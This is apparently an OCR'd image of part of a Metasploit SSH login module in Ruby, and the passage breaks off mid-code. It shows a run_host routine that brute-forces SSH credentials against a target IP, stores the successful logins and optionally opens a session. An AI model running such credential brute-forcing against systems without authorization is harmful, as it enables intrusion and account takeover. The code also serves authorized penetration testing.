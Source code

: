 ```
    # Create database host information
    host_info = {host: scanner.host}

    unless s.platform == 'unknown'
    host_info[:os_name] = s.platform
    end

    report_host(host_info)

    s
end


def run_host(ip)
    @ip = ip
    print_brute :ip => ip, :msg => 'Starting bruteforce'

    cred_collection = build_credential_collection(
    username: datastore['USERNAME'],
    password: datastore['PASSWORD'],
    )

    scanner = Metasploit::Framework::LoginScanner::SSH.new(
    configure_login_scanner(
        host: ip,
        port: rport,
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['SSH_TIMEOUT'],
        framework: framework,
        framework_module: self,
        skip_gather_proof: !datastore['GatherProof']
    )
    )

    scanner.verbosity = :debug if datastore['SSH_DEBUG']

    scanner.scan! do |result|
    credential_data = result.to_h
    credential_data.merge!(
        module_fullname: self.fullname,
        workspace_id: myworkspace_id
    )
    case result.status
    when Metasploit::Model::Login::Status::SUCCESSFUL
        print_brute :level => :good, :ip => ip, :msg => "Success: '#{result.credential}' '#{result.proof.to_s.gsub(/[\r\n\e\b\a]/, ' ')}'"
        credential_data[:private_type] = :password
        credential_core = create_credential(credential_data)
        credential_data[:core] = credential_core
        create_credential_login(credential_data)

        if datastore['CreateSession']
        begin
            session_setup(result, scanner)
        rescue StandardError => e
            elog('Failed to setup the session', error: e)
            print_brute :level => :error, :ip => ip, :msg => "Failed to setup the session - #{e.class} #{e.message}"
        end
        end
```
